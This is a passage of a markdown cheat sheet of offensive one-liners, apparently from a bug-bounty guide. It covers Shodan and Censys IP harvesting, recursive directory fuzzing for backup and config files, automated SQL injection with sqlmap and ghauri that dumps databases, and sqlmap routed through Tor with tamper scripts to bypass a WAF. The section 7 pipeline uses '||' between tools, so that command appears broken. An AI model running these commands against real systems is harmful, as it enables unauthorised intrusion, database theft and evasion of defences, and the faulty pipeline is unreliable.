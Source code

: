 
## **3. Use Shodan in Terminal to Search for IPs**
```bash
shodan search "Ssl.cert.subject.CN:\"target.com\"" --fields ip_str | anew ips.txt
```

---

## **4. Censys for Specific Domain and Extract IP Addresses**
```bash
censys search "target.com" --index-type hosts | jq -c '.results[] | {ip: .ip}' | grep -oE '[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+'
```

---

## **5. Resolve and Save IP Addresses from Domains**
```bash
cat live-domain.txt | httpx -ip -silent -timeout 10 | grep -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}' | tee domains-ips.txt
```

---

## **6. Directory Fuzzing**
**Using ffuf**:
```bash
ffuf -c -w urls.txt:URL -W wordlist.txt:FUZZ -u URL/FUZZ -mc all -fc 500,502 -ac -recursion -v -of json -o output.json
```

**Using Dirsearch**:
```bash
dirsearch -l urls.txt -w /path/to/wordlist.txt -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,py,rb,php,tar,zip,txt,xml --deep --recursive --force-recursive --exclude-sizes=0B --random-agent --full-url -o output.txt
```

---

## **7. SQLi Vulnerabilities with Katana, Hakrawler, and Gau**
```bash
cat subs.txt | gau || hakrawler || katana || waybackurls | grep "=" | sort -u | anew tmp-sqli.txt && sqlmap -m tmp-sqli.txt --batch --random-agent --level=5 --risk=3 --dbs && while read -r url; do ghauri -u "$url" --level=3 --dbs --current-db --batch --confirm; done < tmp-sqli.txt
```

---

## **8. SQLMAP with WAF Bypass via TOR**
```bash
sqlmap -r request.txt --time-sec=10 --tor-type=SOCKS5 --check-tor --random-agent --tamper=space2comment --dbs
```

---